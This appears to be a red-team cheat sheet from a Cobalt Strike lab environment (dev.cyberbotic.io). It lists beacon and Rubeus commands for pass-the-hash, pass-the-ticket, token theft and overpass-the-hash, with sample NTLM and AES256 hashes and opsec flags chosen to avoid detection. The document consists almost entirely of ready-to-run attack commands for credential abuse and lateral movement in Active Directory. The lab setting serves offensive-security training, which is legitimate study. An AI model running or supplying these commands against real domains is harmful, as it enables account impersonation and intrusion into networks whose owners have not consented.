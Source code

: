 User Impersonation

    Pass The Hash Attack (PTH)

beacon> getuid
beacon> ls \\web.dev.cyberbotic.io\c$

# PTH using inbuild method in CS (internally uses Mimikatz)
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c

# Find Local Admin Access
beacon> powerpick Find-LocalAdminAccess

beacon> rev2self

    Pass The Ticket Attack (PTT)

# Create a sacrificial token with dummy credentials
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123

# Inject the TGT ticket into logon session returned as output of previous command
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x798c2c /ticket:doIFuj[...snip...]lDLklP

# OR Combine above 2 steps in one
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123 /ticket:doIFuj[...snip...]lDLklP 

beacon> steal_token 4748
beacon> token-store steal 4748

# Now check access by trying to list the c: drive
beacon> ls \\web.dev.cyberbotic.io\c$

    OverPassTheHash (OPTH)

# Using rc4 NTLM Hash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap

# Using aes256 hash for better opsec, along with /domain (Use NetBios name "DEV" not FQDN "dev.cyberbotic.io") and /opsec flags (better opsec)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap

